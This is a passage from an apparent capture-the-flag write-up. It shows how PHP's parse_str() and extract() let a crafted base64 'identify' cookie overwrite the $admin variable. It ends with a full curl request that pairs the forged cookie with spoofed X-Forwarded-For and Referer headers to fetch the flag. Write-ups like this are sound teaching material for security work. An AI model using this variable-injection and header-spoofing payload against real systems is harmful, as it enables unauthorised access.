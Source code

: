 The second function is `extract()` that imports variables into the current symbol table from an array. So, given the `$output` variable from above, `extract()` will create two variables `$foo` and `$bar` if they don't yet exist, or replace the value of those variables if they already exist.

To take advantage of both functions, I just need to alter my `identify` cookie into base64-encoded of `allow_access=true&admin=1337l333333333333333333333333t`. The `parse_str()` function will change the `$output` variable into:
```
$output = array(
    "allow_access" => "true",
    "admin" => "1337l333333333333333333333333t"
);
```

And the `extract()` function will replace the value of `$admin` variable into `1337l333333333333333333333333t`.

Simply put, here's the modified cookie:
```
identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0
```

And I sent the final request:
```
curl -XPOST http://192.81.210.234:10005/ --cookie "identify=YWxsb3dfYWNjZXNzPXRydWUmYWRtaW49MTMzN2wzMzMzMzMzMzMzMzMzMzMzMzMzMzMzMzN0" --header "X-Forwarded-For: 127.0.0.1" --header "Referer: http://localhost/" --data "12345=true" --header "Accept: flag/*" -v
```

And there's the flag.


![bee463428aa994dbf3f8b4ff42d988fb.png](/assets/images/c0e10931d77d427a98f690908e6e8056.png)


## The Flag

Flag is **HilltopCTF{HTTP_1s_just_4_game_right.}**